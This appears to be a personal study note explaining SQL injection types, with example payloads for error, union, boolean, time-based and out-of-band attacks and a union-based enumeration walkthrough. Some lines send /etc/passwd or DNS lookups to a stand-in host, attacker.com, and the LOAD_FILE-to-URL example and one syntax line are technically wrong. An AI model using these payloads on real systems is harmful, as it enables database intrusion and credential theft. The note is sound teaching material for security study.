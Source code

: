 #  SQL Injection Types and Explanation

SQL Injection (SQLi) is a vulnerability that allows attackers to manipulate a web application's query to the database. It occurs when user input is improperly sanitized, allowing the attacker to inject malicious SQL code. There are several types of SQL injection techniques:

## Types of SQL Injection:

### 1. In-band SQL Injection:

- **Definition:** In-band SQL injection is the most common type of SQLi where the attacker uses the same communication channel to inject and retrieve data from the database.

- **Techniques:**

  - **Error-based SQLi:** The attacker injects malicious SQL code and relies on database error messages to reveal information about the structure of the database. These errors can leak valuable data.

    - **Example:**

      ` ' OR 1=1; -- `

      Injecting this into a vulnerable query like:

        SELECT * FROM users WHERE username = '' OR 1=1 -- ' AND password = '';

      This will return all records in the `users` table.

  - **Union-based SQLi:** The attacker uses the `UNION` operator to combine the results of the original query with the results of an injected query, allowing them to retrieve additional data.

    - **Example:**

      ` ' UNION SELECT username, password FROM users; -- `

      If injected into a vulnerable query like:

        SELECT id, name FROM products WHERE id = [input];

      The attacker can retrieve data from the `users` table instead of the `products` table.

  

### 2. Blind SQL Injection:

- **Definition:** In blind SQL injection, the attacker cannot directly see the result of the query but can infer it based on the application's behavior (e.g., if the page loads or an error occurs).

- **Techniques:**

  - **Boolean-based blind SQLi:** The attacker injects SQL statements that evaluate to true or false and observes how the website responds. Based on the response, the attacker can deduce information.

    - **Example:**

      ` ' AND 1=1; -- (True condition)`  

      ` ' AND 1=2; -- (False condition)`  

      By observing if the query returns data (or the page behaves differently), the attacker can infer whether the condition is true or false.

  - **Time-based blind SQLi:** The attacker uses SQL functions like `SLEEP()` or `BENCHMARK()` to delay the response from the database. If a delay occurs, the attacker knows the query executed successfully.

    - **Example:**

      ` ' OR IF(1=1, SLEEP(5), 0); -- `

      If the page takes longer to load, the attacker can confirm that the condition is true.

  

### 3. Out-of-Band SQL Injection:

- **Definition:** Out-of-band SQL injection occurs when the attacker cannot use the same communication channel to inject and retrieve data. Instead, they use a separate channel (like HTTP requests or DNS queries) to receive the results of the query.

- **Example:**

  - Using SQL functions like `LOAD_FILE()` or `xp_dirtree` to send data to a remote server controlled by the attacker.

  - **Example:**

    ` ' UNION SELECT LOAD_FILE('/etc/passwd') INTO OUTFILE 'http://attacker.com/log.txt'; -- `

    In this case, the result of the query is sent to an external server, providing the attacker with sensitive information without directly showing it on the vulnerable website.

  

## In-Band SQL Injection vs. Out-of-Band SQL Injection:

  

- **In-band SQL Injection:**

  - **Same channel for attack and data retrieval.**

  - Easier to execute since the attacker directly sees the results (error messages, database response).

  - Examples include **Error-based** and **Union-based** SQLi.

  

- **Out-of-band SQL Injection:**

  - **Different channel for attack and data retrieval.**

  - Often used when the application does not return results or give direct feedback.

  - Relies on methods like sending results to external servers using DNS queries, HTTP requests, etc.

  

### In-Band Example:

  

    SELECT * FROM users WHERE username = 'admin' AND password = 'admin' OR '1'='1';

The query becomes:

    SELECT * FROM users WHERE username = 'admin' AND password = 'admin' OR '1'='1';

The injected part `'1'='1'` always evaluates to `TRUE`, which returns all rows in the table.

  

### Out-of-Band Example:

  

    '; EXEC xp_cmdshell('nslookup attacker.com'); --

Here, the attacker is using SQL Server’s `xp_cmdshell` to execute a system command (like `nslookup`) that sends a DNS query to an external server (`attacker.com`). This allows the attacker to confirm the vulnerability without getting direct feedback from the web application.














## SQL syntax 
-` select * where  from table where user ='joe' limit 0,1  ;   --` limit is here to limit the numbers of the output 
- ![[Pasted image 20240728121425.png]]
- ![[Pasted image 20240728122041.png]]
## classification
- **First-Order SQL Injection:**
    
    - **Definition:** In a first-order SQL injection attack, the malicious payload is directly inserted into the application's database query.
    - **Execution:** The attacker typically injects SQL code through user inputs, such as form fields or URL parameters. When the application processes these inputs without proper validation or sanitization, the injected SQL code gets executed by the database.
    - **Example:** If a web form accepts user input for a username and constructs a SQL query like `SELECT * FROM users WHERE username = '<user_input>';`, an attacker could input `' OR 1=1 --` to manipulate the query to return all records from the `users` table.
- **Second-Order SQL Injection:**
    
    - **Definition:** Second-order SQL injection involves injecting malicious payloads that are stored within the application's database, rather than being directly inserted into a query.
    - **Execution:** The injected data is stored in the database first and then later retrieved and used in a query. When the application retrieves and uses this data in a query without proper validation or sanitization, it inadvertently executes the injected SQL code.
    - **Example:** An attacker might submit malicious input that gets stored in the database (e.g., during registration or profile updates). Later, when another user or administrator views that data, the application constructs a query using the stored, but now malicious, input.
## injection 
- union cannot work if  the query calls  different numbers of columns 
- so we check for the number of columns in the query by `order by ***`
- if the number you gave  is work increase until it didn't work so the last number worked is the correct number  
- and then u need to know what number is interpreted in the page 
- by using `jeremy 'union select 1,2,3 #`
- after checking for numbers of calls  then you should use this 
- ` jeremy 'union select 1,2,table_name from information_schema.tables where table_schema =database() ; #`
- you use a valid syntax and then u inject the payload 
- portswigger sql cheat sheet 

	==try to search for any thing injectable like cookies validation or any thing 
